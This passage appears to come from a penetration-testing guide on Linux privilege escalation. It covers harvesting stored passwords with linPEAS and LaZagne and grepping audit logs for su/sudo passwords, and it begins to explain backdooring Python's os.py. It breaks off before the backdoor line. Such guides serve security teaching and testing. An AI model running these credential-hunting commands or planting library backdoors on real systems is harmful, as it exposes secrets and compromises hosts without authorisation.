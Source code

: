 Read the code of [**linPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), it searches for **several possible files that could contain passwords**.\
**Another interesting tool** that you can use to do so is: [**LaZagne**](https://github.com/AlessandroZ/LaZagne) which is an open source application used to retrieve lots of passwords stored on a local computer for Windows, Linux & Mac.

### Logs

If you can read logs, you may be able to find **interesting/confidential information inside them**. The more strange the log is, the more interesting it will be (probably).\
Also, some "**bad**" configured (backdoored?) **audit logs** may allow you to **record passwords** inside audit logs as explained in this post: [https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/).

```bash
aureport --tty | grep -E "su |sudo " | sed -E "s,su|sudo,${C}[1;31m&${C}[0m,g"
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```

In order to **read logs the group** [**adm**](interesting-groups-linux-pe/index.html#adm-group) will be really helpful.

### Shell files

```bash
~/.bash_profile # if it exists, read it once when you log in to the shell
~/.bash_login # if it exists, read it once if .bash_profile doesn't exist
~/.profile # if it exists, read once if the two above don't exist
/etc/profile # only read if none of the above exists
~/.bashrc # if it exists, read it every time you start a new shell
~/.bash_logout # if it exists, read when the login shell exits
~/.zlogin #zsh shell
~/.zshrc #zsh shell
```

### Generic Creds Search/Regex

You should also check for files containing the word "**password**" in its **name** or inside the **content**, and also check for IPs and emails inside logs, or hashes regexps.\
I'm not going to list here how to do all of this but if you are interested you can check the last checks that [**linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) perform.

## Writable files

### Python library hijacking

If you know from **where** a python script is going to be executed and you **can write inside** that folder or you can **modify python libraries**, you can modify the OS library and backdoor it (if you can write where python script is going to be executed, copy and paste the os.py library).

To **backdoor the library** just add at the end of the os.py library the following line (change IP and PORT):
